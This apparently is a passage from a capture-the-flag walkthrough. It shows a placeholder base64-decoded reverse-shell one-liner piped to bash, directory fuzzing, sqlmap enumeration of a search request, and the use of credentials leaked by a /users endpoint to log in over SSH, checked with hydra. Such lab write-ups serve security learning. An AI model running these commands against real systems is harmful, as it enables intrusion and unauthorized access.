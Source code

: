 `echo <base64-encoded-rev-shell> | base64 -d | bash`

## HTTP on 82

Using directory fuzzing we find `/feed`, `/search`, `/view` and `/t`

Navigate to `/search`. Make a search and capture the request with Burp, save it and pass it to sqlmap to test for vulnerabilities.

```bash
$ sqlmap -r req.txt --dbs

# when the following question comes up press no
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] n

available databases [2]:
[*] hillpics
[*] information_schema

```

Hillpics just contains all the pictures on the website and there's not else here.

## HTTP on 8888
On port 8888 we have `/apps`, `/users`.

Out of these two, the `/users` path discloses user credentials: `davelarkin:totallysecurehuh`.

Using the above creds we have a successful login on ssh port 2222.

```bash
$ hydra -l davelarkin -p "totallysecurehuh" ssh://10.10.15.130:2222                   

[DATA] attacking ssh://10.10.15.130:2222/
[2222][ssh] host: 10.10.15.130   login: davelarkin   password: totallysecurehuh
1 of 1 target successfully completed, 1 valid password found
```

```bash
davelarkin@a9ef0531077f:~$ whoami
davelarkin
```



